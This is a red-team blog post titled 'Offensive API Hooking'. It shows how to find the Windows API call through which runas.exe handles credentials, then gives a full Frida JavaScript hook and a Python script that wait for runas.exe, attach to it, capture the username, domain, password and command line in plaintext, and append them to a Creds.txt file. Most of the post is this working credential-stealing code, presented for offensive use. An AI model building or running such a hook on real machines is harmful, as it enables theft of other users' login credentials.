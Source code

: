 ```yaml
---
title: Offensive API Hooking
author: Ilan Kalendarov
date: 2021-02-10 14:10:00 +0800
categories: [Red Team]
tags: [persistence, av evasion]

---
```


## Introduction

Hooking is not a new concept as we know by now, many AV/EDR vendors use this technique to monitor suspicious API calls. In this blog post we'll explore API hooking but in the offensive point of view. We'll use API Monitor to investigate which API calls used by each program then, using Frida and python to build our final hooking script. This post is inspired by the Red Teaming Experiments [blog post.](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/instrumenting-windows-apis-with-frida )



## API Monitor

Api Monitor is a great tool for... you guest it, monitoring api calls. You can find it [here](http://www.rohitab.com/downloads).

Firing up Api Monitor this will be the main screen:

![](https://raw.githubusercontent.com/IlanKalendarov/IlanKalendarov.github.io/main/Images/ApiMonitorHomeScreen.png)

As you can see I've chosen all libraries options therefore, I would able to catch most of the API possibilities. Let's start by monitoring a new process, I'll choose `runas.exe` first.

According to Microsoft docs:

> It allows a user to run specific tools and programs with different permissions than the user's current logon provides.

Looks good to me as a start. 

Opening runas and trying to login as a different user gives us the above API call:

![](https://raw.githubusercontent.com/IlanKalendarov/IlanKalendarov.github.io/main/Images/RunasAPICall.png)

Great so we know that `CreateProcessWithLogonW` api call contains our secret password. Looking at the [microsoft docs ](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) we could see that the first and third arguments will store the username and password. Now that we have that information lets build our script!.



## Frida

According to Frida's site:

> It’s [Greasemonkey](https://addons.mozilla.org/en-US/firefox/addon/greasemonkey/) for native apps, or, put in more technical terms, it’s a dynamic code instrumentation toolkit. It lets you inject snippets of JavaScript or your own library into native apps on Windows, macOS, GNU/Linux, iOS, Android, and QNX. Frida also provides you with some simple tools built on top of the Frida API. These can be used as-is, tweaked to your needs, or serve as examples of how to use the API.

We'll be able to build a JavaScript snippet that takes the function name from the DLL library - `Advapi.dll`. The script should look like this:

```javascript
var CreateProcessWithLogonW = Module.findExportByName("Advapi32.dll", 'CreateProcessWithLogonW') // exporting the function from the dll library

Interceptor.attach(CreateProcessWithLogonW, { // getting our juice arguments (according to microsoft docs)
	onEnter: function (args) {
		this.lpUsername = args[0];
		this.lpDomain = args[1];
		this.lpPassword = args[2];
		this.lpCommandLine = args[5];
	},
	onLeave: function (args) { // getting the plain text credentials 
		send("\\n=============================" + "\\n[+] Retrieving Creds from RunAs.." +"\\n Username    : " + this.lpUsername.readUtf16String() + "\\nCommandline : " + this.lpCommandLine.readUtf16String() + "\\nDomain      : " + this.lpDomain.readUtf16String() + "\\nPassword    : " + this.lpPassword.readUtf16String()+ "\\n=============================");

	}
});
```

Now, all left to do is to insert the JavaScript snippet to a python script, The final python script should look like this:

```python
# Wrriten by Ilan Kalendarov

from __future__ import print_function
import frida
from time import sleep
import psutil
from threading import Lock, Thread

# Locking the runas thread to prevent other threads
#interfering with our current session
lockRunas = Lock()  

def on_message_runas(message, data):
	# Executes when the user enters the password.
	# Then, open the txt file and append the data.
	print(message)
	if message['type'] == "send":
		with open("Creds.txt", "a") as f:
			f.write(message["payload"] + '\n')
		try:
			lockRunas.release()
			print("[+] released")
		except Exception:
			pass


def WaitForRunAs():
	while True:
		# Trying to find if runas is running if so, execute the "RunAs" function.
		if ("runas.exe" in (p.name() for p in psutil.process_iter())) and not lockRunas.locked():
			lockRunas.acquire() # Locking the runas thread
			print("[+] Found RunAs")
			RunAs()
			sleep(0.5)

		# If the user regret and they "ctrl+c" from runas then release the thread lock and start over.
		elif (not "runas.exe" in (p.name() for p in psutil.process_iter())) and lockRunas.locked():
			lockRunas.release()
			print("[+] Runas is dead releasing lock")
		else:
			pass
		sleep(0.5)

def RunAs():
	try:
		# Attaching to the runas process
		print("[+] Trying To Attach To Runas")
		session = frida.attach("runas.exe")
		print("[+] Attached runas!")

		# Executing the following javascript
		# We Listen to the CreateProcessWithLogonW func from Advapi32.dll to catch the username,password,domain and the executing program 		  in plain text.
		script = session.create_script("""

		var CreateProcessWithLogonW = Module.findExportByName("Advapi32.dll", 'CreateProcessWithLogonW') // exporting the function from 		the dll library
		Interceptor.attach(CreateProcessWithLogonW, { // getting our juice arguments (according to microsoft docs)
			onEnter: function (args) {
				this.lpUsername = args[0];
				this.lpDomain = args[1];
				this.lpPassword = args[2];
				this.lpCommandLine = args[5];
			},
			onLeave: function (args) { // getting the plain text credentials 
				send("\\n=============================" + "\\n[+] Retrieving Creds from RunAs.." +"\\n Username    : " + this.lpUsername.readUtf16String() + "\\nCommandline : " + this.lpCommandLine.readUtf16String() + "\\nDomain      : " + this.lpDomain.readUtf16String() + "\\nPassword    : " + this.lpPassword.readUtf16String()+ "\\n=============================");

			}
		});

		""")

		# If we got a hit then execute the "on_message_runas" function
		script.on('message', on_message_runas)
		script.load()
	except Exception as e:
		print(str(e))

if __name__ == "__main__":
	thread = Thread(target=WaitForRunAs)
	thread.start()
```

Great! lets try to run the script:

![](https://raw.githubusercontent.com/IlanKalendarov/IlanKalendarov.github.io/main/Images/RunasScript.png)